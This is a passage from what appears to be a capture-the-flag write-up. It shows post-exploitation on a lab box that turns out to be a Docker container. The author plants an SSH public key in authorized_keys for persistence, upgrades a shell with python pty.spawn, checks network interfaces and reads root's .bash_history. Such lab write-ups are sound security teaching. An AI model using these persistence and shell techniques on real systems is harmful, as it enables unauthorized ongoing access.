 There was no `root.txt` in the /root folder, but there was a `todo.txt`

switching the payload to cmd/unix/python//// made it much more stable

```text
echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8emG+VqFZL/N0w= zweilos@kali' > authorized_keys
cat authorized_keys
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBALitdwPZ4cTmWVPyzqI7w1UMtDj2y4uYZBCCdc2yi+tHz8y1VkLLWWH9ohWsGQEOT1L9t/Zc8emG+VqFZL/N0w= zweilos@kali
cd ..
cd ..
python -c 'import pty;pty.spawn("/bin/bash")'
root@2d24bf61767c:/# hostname
hostname
2d24bf61767c
```

AFter trying a number of times to put my ssh key into the authorized\_keys file and failing to log in, I realized that I was not on the host victim machine. I must be inside a VM or container...

```text
root@2d24bf61767c:/# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

the interface eth0 had an ip of 172.. which was a docker IP...I felt like this had been a bit too easy!

```text
root@2d24bf61767c:~# cat .bash_history
cat .bash_history
paswd
passwd
passwd
passswd
passwd
passwd
cd /root
ls
ls -la
rm .wget-hsts 
cd .ssh/
ls
cd ..
printf '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt 
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.' > todo.txt
cat todo.txt 
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\' > todo.txt
printf -- '- Add saltstack support to auto-spawn sandbox dockers.\n- Integrate changes to tomcat and make the service open to public.\n' > todo.txt
```